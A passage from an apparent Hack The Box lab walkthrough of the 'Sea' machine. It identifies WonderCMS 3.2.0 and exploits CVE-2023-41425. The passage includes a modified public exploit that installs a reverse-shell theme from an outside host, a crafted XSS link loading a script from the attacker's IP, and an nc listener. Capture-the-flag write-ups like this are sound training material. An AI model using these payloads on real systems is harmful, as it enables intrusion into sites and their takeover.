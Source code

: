 ## Web Application Analysis

Further investigation of the `/themes/bike/` endpoints identified the application as WonderCMS version 3.2.0:

```shell
❯ curl http://sea.htb/themes/bike/summary
Animated bike theme, providing more interaction to your visitors.

❯ curl http://sea.htb/themes/bike/version
3.2.0
```

I simply searched the string from the summary and found the [github-page](https://github.com/WonderCMS/wondercms-cdn-files/blob/main/wcms-modules.json).

Research revealed this version is vulnerable to [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425), a stored XSS vulnerability that can be leveraged for remote code execution. This vulnerability is an instance of [CWE-79: Improper Neutralization of Input During Web Page Generation](https://cwe.mitre.org/data/definitions/79.html).

## Initial Foothold

I modified the publicly available exploit to target the vulnerable instance:

```shell
❯ diff ~/htb/labs/sea/51805.py ./51805.py
13,15c13,18
<
< var urlWithoutLogBase = "http://sea.htb"
<
---
> var url = "'''+str(sys.argv[1])+'''";
> if (url.endsWith("/")) {
>  url = url.slice(0, -1);
> }
> var urlWithoutLog = url.split("/").slice(0, -1).join("/");
> var urlWithoutLogBase = new URL(urlWithoutLog).pathname;
17c20
< var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.87:8000/main.zip&directoryName=violet&type=themes&token=" + token;
---
> var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
```

Executing the exploit:

```shell
❯ python3 ./51805.py http://sea.htb/loginURL 10.10.14.87 4444
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 4444
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.87:8000/xss.js"></script><form+action="
----------------------------


starting HTTP server to allow the access to xss.js
```